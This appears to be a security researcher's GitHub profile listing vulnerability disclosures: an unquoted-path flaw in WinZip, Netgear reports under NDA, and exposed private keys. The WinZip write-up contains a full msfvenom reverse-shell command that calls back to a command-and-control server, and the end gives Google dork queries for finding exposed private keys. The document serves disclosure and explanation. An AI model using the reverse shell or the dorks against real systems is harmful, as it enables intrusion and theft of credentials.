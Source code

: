 ## Vulnerability Disclosures:
### Unquoted Path Vulnerability: 3 Reported
1. Corel (Winzip): https://github.com/ciwen3/Public/blob/master/vuln-report/winzip-Submission.pdf
- Credited: https://support.corel.com/hc/en-us/articles/217086227
- ```This Vulnerability would not compromise the WinZip application. It would however compromise WinZips customer devices. This attack would mostly be used for maintaining persistence or elevating privilege's on an already compromised machine. This is a security issue because no one wants unintended programs to be run by the system. For this vulnerability to work it would require a malicious application named program.exe to be stored in the C:\ folder. Once there, the malicious application could do anything you programmed it to. The easiest way to illustrate this would be a terminal connection to a remote server giving someone else control of the system. For this example I can use MSFVenom to easily make a reverse shell that calls home to my AWS Command and Control server. "msfvenom p windows/shell_reverse_tcp LHOST=[AWS-IP] LPORT=4444 -f exe > Program.exe" Then I can place this executable in C:\ folder. When the WinZip calls an unquoted path that begins with C:\Program Files… it will run the malicious program.exe application and give me the full permissions being used by the WinZip application.```
2. Netgear PSV-2020-0590: Non-Disclosure Agreement 
3. Netgear PSV-2020-0593: Non-Disclosure Agreement 
4. Weathernews Inc (wni.co.jp): May 13, 2021 - Sensitive data exposure, found private keys on several publicly accessable (no login required and google searchable) servers. 

### Sensitive Data Leak Disclosures: Multiple Reported (lost track of the actual count)
usually found using google dorks and related to .pem .key or api keys
##### Examples:
- intitle:"index of" "*.cert.pem" | "*.key.pem"
- "BEGIN * PRIVATE KEY" ext:pem | ext:key | ext:txt
